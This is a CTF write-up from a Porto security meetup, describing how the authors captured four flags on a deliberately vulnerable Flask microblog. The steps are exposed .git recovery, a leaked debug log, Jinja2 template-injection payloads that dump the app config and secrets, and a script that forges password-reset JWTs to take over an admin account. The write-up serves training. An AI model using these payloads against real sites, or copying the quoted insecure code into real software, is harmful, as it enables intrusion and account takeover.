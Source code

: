 ```yaml
---
layout: post
title:  "ØxＯＰＯＳɆＣ Mɇɇtuᵽ [0x70] Challenge Write-up"
categories: [infosec, iot]
tags: [oposec, infosec, ctf]
description: "Write-up for the CTF-like challenge of 0x70 edition of the ØxＯＰＯＳɆＣ Mɇɇtuᵽ"
---
```


"Based in Porto, the ØxＯＰＯＳɆＣ group was started by g33ks who are passionate about security. The meetup primary mission is to discuss and tackle upsurging security issues by leveraging the expertise and know-how of members of the group." This is the write-up of the challenge at the 0x70 meetup edition, by [DDuarte](https://github.com/DDuarte) and André Morais.
<!--more-->

The meetup happens in a monthly-basis, feel free to [join in](https://www.meetup.com/0xOPOSEC/).

![Index Page/Login](/images/oposec/index.png)

Jumping to the challenge. We're given an URL to a Twitter-like website named Twipy (image). From the name, we can conclude that maybe it is made in Python. We know that there are 4 flags to be found: 

- Flag 1 - Version Control is easy
- Flag 2 - Debug 101
- Flag 3 - Nice tweet Eve 🧪
- Flag 4 - This link is bamboozling

All the flags have the same format: *{flag}Rand0mStuff*

## Recon

First things first, lets make some recon even without creating an account. Firing up a [dirsearch](https://github.com/maurosoria/dirsearch) maybe will give us something. The results can be summed up as follow (200 status code results):

{% highlight bash %} 
$ dirsearch -u "example.com" -e py,php
|- 200 -    1KB - /.git/
|- 200 -  735B  - /.gitignore
|- 200 -    3KB - /auth/login
|- 200 -   19KB - /debug.log
{% endhighlight %} 

So, from dirsearch, we found an exposed ```.git``` folder and a ```debug.log``` file. Downloading all the things with ```wget```.

{% highlight bash %} 
$ wget --mirror -I .git http://example.com/.git/
$ wget http://example.com/debug.log
{% endhighlight %} 

Before moving further, firing up ```nmap``` returns only ports 22 (SSH) and 80 (HTTP), so nothing unusual here. We could try to find the credentials for the SSH, but it is a long-shot from the beginning. Firing also ```sqlmap``` on all the possible injectable fields (login form, account reset and ```next``` query param) also resulted in a dead-end.

![Timeline/Home](/images/oposec/timeline.png)

Moving further, and creating an account, we end up with a timeline (image). In the image we can see another user posts, *Willis Adams*, which has two messages being one of them a private message that we can only see the first 6 chars: *{flag}\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\**. Only the *Willis Adams* user can see the message behind the asterisk, but it is a flag. 

The other features of the website like the update profile, explore other users tweets and searching resulted in dead-ends.

## Flag 1 - Version Control is easy

After finding the ```.git``` folder, the next obvious step was to try to recover all the source code. By making a ```$ git status``` we could see all the files that were deleted. 

{% highlight bash %} 
$ git checkout -- .
{% endhighlight %} 

Running the above command restored all the files to their most recent version (before being deleted). By checking the ```$ git log``` we found out some curious commit messages like *Don't disclose mail password :)*, but I could not find anything by analyzing the git diffs. 

Since we know that all flags have the same format, making an exaustive search among all files and revisions:
{% highlight bash %} 
$ git grep ".*flag.*" $(git rev-list --all)
{% endhighlight %} 

We could find that in the commit ```eb3cb7e1ec4e73b0850ec4a6c4a89122599d213d``` the file ```twipy.py``` had the following line of code:

{% highlight python %} 
return '{flag}Us3_vault_for_no_p4sswords_1n_s0urce_cod3.'
{% endhighlight %} 
    
And so, we have our first flag:

>> {flag}Us3_vault_for_no_p4sswords_1n_s0urce_cod3.

## Flag 2 - Debug 101

During our recon phase we found out that a ```debug.log``` was exposed and accessible. Analyzing its contents we could immediatelly find the next flag:

{% highlight bash %} 
2019-01-10 17:52:25,489 ERROR: Unhandled Exception: {flag}b3_c4r3ful_w1th_Wh4t_y0u_l34v3_pUbl1c [in /twipy/app/errors/handlers.py:21]
{% endhighlight %} 

Further, we found out that calling ```http://example.com/flag``` was the trigger to write that exception to the log file.

>> {flag}b3_c4r3ful_w1th_Wh4t_y0u_l34v3_pUbl1c

## Flag 3 - Nice tweet Eve 🧪

Since we now have access to the source code of the app, and sure that the app is written in Python, one of the first things that come to mind is [Server-Side Template Injection](https://portswigger.net/blog/server-side-template-injection). Reading some tutorials and write-ups about the subject I found this one as being the most straightforward: [Flaskcards challenge at Pico CTF 2018](https://s0cket7.com/picoctf-web).

To find if the website is vulnerable we simply tweet ```{{ 7 * 7 }}```, and in the alert-info box we got the following response:
*You just posted: 49*

So our code is being executed. In order to exploit Template Injection firstly, we must find out what is the template engine being used. To do so, the probe ```{{7*'7'}}``` would result in ```49``` in Twig, ```7777777``` in Jinja2, and neither if no template language is in use. In our case, the response was: *You just posted: 7777777*, so we're dealing with Jinja2.

We could also reach the same conclusion by analyzing the Python packages in the ```requirements.txt``` file. And we could also identify the vulnerable code:

{% highlight python %} 
# TODO add user input validation
post_content = render_template_string('''You just posted: %s ''' % form.post.data)
{% endhighlight %} 

The next step was trying to get the config, posting ```{{ config.items() }}```, which resulted in an alert-info with a lot of information that is contained in the config, including:
- FLAG: {flag}V4lid4t3_always_us3r_1NPUT 
- SECRET_KEY: yJmsCAeao5zOM3gvoxHrOyM5HGJTTDpQ7UxAIHneCxc=
- SQLALCHEMY_DATABASE_URI: mysql+pymysql://twipy:RkZDwtkaZ9ugnwf@db/twip

So we have our third flag:

>> {flag}V4lid4t3_always_us3r_1NPUT 

## Flag 4 - This link is bamboozling

One of the things that can be easily noticed is that each user has a unique UUID, e.g. *ae1677ca-f7bd-431a-8280-8fdf4aa801ca*. We can also visit other users profiles and get their unique UUID. 

{% highlight python %} 
god_user = User.query.filter_by(email='willis.adams@example.com').first()
if god_user:
    user.follow(god_user)
{% endhighlight %} 

Analyzing the code creating a new user account, we notice that all the users must follow the user *Willis Adams*, with the UUID *70a82737-a6d9-4284-93db-0600db6f05ca*. 

{% highlight python %} 
def dummy_password(size=8, chars=string.ascii_letters + string.digits):
    return ''.join(random.choice(chars) for i in range(size))
{% endhighlight %} 

Since the passwords are randomly generated in the ```twipy.py```, brute-forcing would take too much time. Another attack-vector can be the recovery password mechanism. By analyzing the structure of the recovery link, we notice that it resembles a [JWT token](https://jwt.io/): 

```http://example.com/auth/reset_password/eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InphZnlmb2t1QGdldG5hZGEuY29tIiwiaWQiOiJhZTE2NzdjYS1mN2JkLTQzMWEtODI4MC04ZmRmNGFhODAxY2EiLCJleHAiOjE1NDc3MjY4NzEuMzgwMzQ2LCJuYW1lIjoidHNhciJ9.pDrpqe-GB8Qo2xEdD5pDA9wIOtNpOl3GAq19LBFZJXs```.

In the  ```models.py``` file we have the following logic for assigning and validating recovery password tokens (JWT tokens).

{% highlight python %} 
def get_token(self, expires_in=600):
    return jwt.encode(
        {'id': self.id, 'name': self.name, 'email': self.email, 'exp': time() + expires_in},
        current_app.config['SECRET_KEY'],
        algorithm='HS256').decode('utf-8')

@staticmethod
def verify_token(token):
    try:
        id = jwt.decode(token, current_app.config['SECRET_KEY'], verify=False, algorithms=['HS256'])['id']
    except:
        return
    return User.query.get(id)
{% endhighlight %} 

Since there is no call to database or nounce being used, we can make our own JWT tokens if we know the SECRET_KEY (from the third flag) and the UUID of the target user, in this case, the **god user**.

By making a simple script (checking out in the requirements.txt the Python package used for the JWT - PyJWT), we can get the JWT token in question.

{% highlight python %} 
import jwt
from time import time

secret_key = 'yJmsCAeao5zOM3gvoxHrOyM5HGJTTDpQ7UxAIHneCxc='
id = "70a82737-a6d9-4284-93db-0600db6f05ca"
name = "Willis Adams"
email = "willis.adams@example.com"
expires_in = 600;

print jwt.encode(
    {'id': id, 'name': name, 'email': email, 'exp': time() + expires_in},
    secret_key,
    algorithm='HS256').decode('utf-8')
{% endhighlight %} 

By setting a new password to the *god user* we can see their private tweets thus getting the flag.

>> {flag}4lw4ys_v3r1fy_y0ur_t0k3NS


## Wrap-Up

It was a nice web challenge, always learning a little bit more about infosec and CTFs. Kudos @dduarte and @AndreMorais for the challenge.